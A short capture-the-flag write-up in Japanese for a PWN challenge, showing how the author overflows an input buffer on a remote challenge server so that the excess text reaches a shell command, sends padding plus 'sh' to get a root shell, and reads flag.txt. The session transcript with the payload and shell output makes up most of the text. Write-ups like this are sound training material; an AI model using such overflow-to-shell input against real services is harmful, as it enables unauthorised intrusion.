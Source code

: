 # Starting place:PWN:324pts
I like storing passwords in files.  
ASLR is off on the server.  

[starting_place.out](starting_place.out)  
[213.133.103.186:6591](213.133.103.186:6591)  

# Solution
実行ファイルと接続先が渡される。  
ひとまず接続してみる。  
```bash
$ nc 213.133.103.186 6591
Hi! would you like see the current directory?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Ok

sh: 1: AAAAAAAAAAAAAAAA: not found
```
BOFでも起こそうかと適当に入力したところ、shのエラーが出た。  
一定以上の文字を入力するとなぜかシェルにわたるようだ。  
```bash
$ nc 213.133.103.186 6591
Hi! would you like see the current directory?
ABCDEFGHIJKLMNOPQRSTUVWXYZ
ABCDEFGHIJKLMNOPQRSTUVWXYZ
Ok

sh: 1: MNOPQRSTUVWXYZ: not found
sh: 2: �: not found
$ nc 213.133.103.186 6591
Hi! would you like see the current directory?
ABCDEFGHIJKLsh
ABCDEFGHIJKLsh
Ok

sh: 0: can't access tty; job control turned off
# ls
ls
Dockerfile  boot  flag.txt  lib32   media  problem_backend.c  run   sys  var
a.out       dev   home      lib64   mnt    proc               sbin  tmp
bin         etc   lib       libx32  opt    root               srv   usr
# cat flag.txt
cat flag.txt
bucket{congrats-on-the-buffer-overlfow-success}#
```
無事にシェルが起動でき、flag.txtをみるとflagが書かれていた。  

## bucket{congrats-on-the-buffer-overlfow-success}